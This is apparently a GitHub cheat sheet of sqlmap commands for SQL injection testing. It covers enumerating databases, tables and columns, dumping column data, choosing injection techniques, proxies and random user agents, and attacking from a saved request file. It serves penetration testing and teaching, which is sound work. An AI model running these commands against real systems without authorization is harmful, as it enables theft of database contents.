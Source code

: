 # Sqlmap
## Dumping specific informatin from database
### Listing information about the existing databases 
DBMS databases enumeration:
```
sqlmap -u $ip --dbs 
```

### Listing information about tables present in a particular database
```
sqlmap -u $ip -D DatabaseName --tables 
```

### Listing information about the columns of a particular table
```
sqlmap -u $ip -D DatabaseName -T TableName --columns
```

### Dumping the data from particular column
```
sqlmap -u $ip -D DatabaseName -T TableName -C ColumnName --dump
```
## Providing specific information to sqlmap
```
--data "DataToBeSent"
-p ParameterToInjectTo
--dbms <DBMStype>
--proxy=PROXY
--random-agent
--technique=BEUSTQ
    B: Boolean-based blind
    E: Error-based
    U: Union query-based
    S: Stacked queries
    T: Time-based blind
    Q: Inline queries
```

## Exploitation via specific packet
```
# Copy request to file e.g req.txt
sqlmap -r req.txt -p VulnerableParameter --dbs
...
```


